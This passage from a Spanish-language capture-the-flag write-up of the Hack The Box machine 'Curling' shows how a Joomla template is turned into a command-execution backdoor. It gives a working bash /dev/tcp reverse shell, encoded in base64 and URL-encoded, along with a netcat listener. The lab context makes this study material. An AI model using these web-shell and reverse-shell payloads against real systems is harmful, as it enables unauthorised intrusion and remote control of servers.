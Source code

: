Donde la petición recibirá una variable llamada `xmd` que contendrá nuestro comando y ese comando sería ejecutado por la función `system()`.

Guardamos y validamos el archivo en la web, ahora ejecutemos `hostname`:

```html
http://10.10.10.150/templates/beez3/error.php?xmd=hostname
```

Yyyyy:

<img src="https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/curling/160page80_templateBEEZ3_errorPHP_GETvarXMD_hostnameRCE_done.png" class="img-to-zoom" data-toggle="modal" data-target=".modal-zoomed-img" style="width: 100%;"/>

LISTOOOONES, ahora si hagamos una reverse Shell (:

---

## Obtenemos <u>Shell</u> en el sistema como <u>www-data</u> [📌](#joomla-template-rce-reverseshell) {#joomla-template-rce-reverseshell}

Nos ponemos en escucha:

```bash
❱ nc -lvp 4433
```

Generamos nuestro payload (lo que ejecutara el sistema) y lo encodeamos en **base64**:

```bash
❱ echo "bash -i >& /dev/tcp/10.10.14.5/4433 0>&1" | base64
YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNC41LzQ0MzMgMD4mMQo=
```

Una vez la petición sea recibida en nuestro puerto `4433` se generará una `/bin/bash`. 

Ahora **URLencodeamos** para evitar que `+` o `=` sean interpretados de manera errónea por la web, usaremos [esta web](https://www.urlencoder.org/):

<img src="https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/curling/160google_URLencode_revSH.png" class="img-to-zoom" data-toggle="modal" data-target=".modal-zoomed-img" style="width: 100%;"/>

Y lo que haremos para que el sistema entienda lo que le enviamos y lo interprete será:

```html
http://10.10.10.150/templates/beez3/error.php?xmd=echo YmFzaCAtaSA%2BJiAvZGV2L3RjcC8xMC4xMC4xNC41LzQ0MzMgMD4mMQo%3D | base64 -d | bash
```

Lanzamos la petición y en nuestro listeneeeeeeeeeeeeeer:

<img src="https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/curling/160bash_wwwdataRevSH.png" class="img-to-zoom" data-toggle="modal" data-target=".modal-zoomed-img" style="width: 100%;"/>

TAMO DENTROOROROWOWOWOWOWOWOOWOW!!

...

He creado un script para automatizar la modificación del template y obtener ejecución remota de comandos desde él, se los dejo por si algo (con él no es necesario **URLencodear** nada):
